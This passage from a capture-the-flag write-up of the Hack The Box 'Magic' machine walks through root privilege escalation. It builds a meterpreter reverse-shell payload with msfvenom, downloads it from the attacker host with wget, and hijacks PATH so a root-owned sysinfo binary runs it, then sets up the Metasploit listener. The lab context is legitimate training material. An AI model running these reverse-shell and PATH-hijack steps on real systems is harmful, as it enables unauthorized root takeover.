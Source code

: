 ```
theseus@ubuntu:~$ which free
/usr/bin/free
```
And what exactly are these..?
```
theseus@ubuntu:~$ file free
free: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, corrupted section header size
```
Interesting.. and since `sysinfo` is owned by `root`, without doubt those binaries are run with `root` permissions... that means... Of course we know what that means :)

### Shell as root
First, prepare a reverse meterpreter binary using `msfvenom`:
```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=10.10.14.4 lport=4445 -f elf > shell.elf
```
Let's target the program called `free` - rename `shell.elf` to `free`:
```
kali@kali:~/htb/boxes/magic/root$ mv shell.elf free
kali@kali:~/htb/boxes/magic/root$ file free 
free: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```
Copy our `free` to the box:
```
theseus@ubuntu:~$ wget http://10.10.14.4:9002/free
--2020-08-23 02:24:06--  http://10.10.14.4:9002/free
Connecting to 10.10.14.4:9002... connected.
HTTP request sent, awaiting response... 200 OK
Length: 250 [application/octet-stream]
Saving to: ‘free’

free                                   100%[=========================================================================>]     250  --.-KB/s    in 0s      

2020-08-23 02:24:07 (39.9 MB/s) - ‘free’ saved [250/250]
```
Set `free` with execute permissions, and - this is important - set the `$PATH` for the `free` program to `theseus`'s home directory:
```
theseus@ubuntu:~$ chmod +x free
theseus@ubuntu:~$ export PATH=/home/theseus/:$PATH
theseus@ubuntu:~$ echo $PATH
/home/theseus/:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
Now whenever the system looks for `free`, it's gonna run _our_ `free`. (evil smile). :)
  
  
Setup meterpreter listener on port 4445:
```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.10.14.4
lhost => 10.10.14.4
msf5 exploit(multi/handler) > set lport 4445
lport => 4445
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.4:4445
```
Execute `/bin/sysinfo` on the box... (Note: Do this on the same shell where we altered the `$PATH`)
```
msf5 exploit(multi/handler) > run

```